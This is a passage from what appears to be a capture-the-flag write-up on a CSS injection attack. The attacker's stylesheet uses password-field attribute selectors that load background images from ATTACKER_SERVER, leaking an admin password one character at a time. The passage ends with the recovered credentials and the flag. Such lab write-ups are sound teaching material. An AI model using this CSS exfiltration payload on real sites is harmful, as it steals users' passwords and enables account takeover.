 We just need to repeat this for each character. You could automate this into a nice script but I went for the manual approach (was super slow, don't recommend lol); use find/replace and replace `value^=` with `value^=F`. Repeat this until we get it all.

Note: I realised that the password has special chars, so after finding `F0x13foXtrOT`, I added some more elements to the CSS.

{% code overflow="wrap" %}
```css
input[name=password][value^=F0x13foXtrOT\!] { background-image: url('https://ATTACKER_SERVER/!'); }
input[name=password][value^=F0x13foXtrOT\@] { background-image: url('https://ATTACKER_SERVER/@'); }
input[name=password][value^=F0x13foXtrOT\#] { background-image: url('https://ATTACKER_SERVER/#'); }
input[name=password][value^=F0x13foXtrOT\$] { background-image: url('https://ATTACKER_SERVER/$'); }
input[name=password][value^=F0x13foXtrOT\%] { background-image: url('https://ATTACKER_SERVER/%'); }
input[name=password][value^=F0x13foXtrOT\^] { background-image: url('https://ATTACKER_SERVER/^'); }
input[name=password][value^=F0x13foXtrOT\&] { background-image: url('https://ATTACKER_SERVER/&'); }
input[name=password][value^=F0x13foXtrOT\*] { background-image: url('https://ATTACKER_SERVER/*'); }
input[name=password][value^=F0x13foXtrOT\(] { background-image: url('https://ATTACKER_SERVER/('); }
input[name=password][value^=F0x13foXtrOT\)] { background-image: url('https://ATTACKER_SERVER/)'); }
input[name=password][value^=F0x13foXtrOT\_] { background-image: url('https://ATTACKER_SERVER/_'); }
input[name=password][value^=F0x13foXtrOT\-] { background-image: url('https://ATTACKER_SERVER/-'); }
input[name=password][value^=F0x13foXtrOT\+] { background-image: url('https://ATTACKER_SERVER/+'); }
input[name=password][value^=F0x13foXtrOT\~] { background-image: url('https://ATTACKER_SERVER/~'); }
input[name=password][value^=F0x13foXtrOT\[ ] { background-image: url('https://ATTACKER_SERVER/['); }
input[name=password][value^=F0x13foXtrOT\\] { background-image: url('https://ATTACKER_SERVER/]'); }
input[name=password][value^=F0x13foXtrOT\|] { background-image: url('https://ATTACKER_SERVER/|'); }
input[name=password][value^=F0x13foXtrOT\;] { background-image: url('https://ATTACKER_SERVER/;'); }
input[name=password][value^=F0x13foXtrOT\:'"] { background-image: url('https://ATTACKER_SERVER/:\'"'); }
input[name=password][value^=F0x13foXtrOT\,] { background-image: url('https://ATTACKER_SERVER/,'); }
input[name=password][value^=F0x13foXtrOT\.] { background-image: url('https://ATTACKER_SERVER/.'); }
input[name=password][value^=F0x13foXtrOT\/] { background-image: url('https://ATTACKER_SERVER//'); }
```
{% endcode %}

The full password is `F0x13foXtrOT&Elas7icBe4n5`, we can login with:

{% code overflow="wrap" %}
```
admin:F0x13foXtrOT&Elas7icBe4n5
```
{% endcode %}

{% code overflow="wrap" %}
```
Welcome admin! You earned yourself a flag: flag{6b1f095e79699a79dc4a366c1131313e}
```
{% endcode %}

Flag: `flag{6b1f095e79699a79dc4a366c1131313e}`
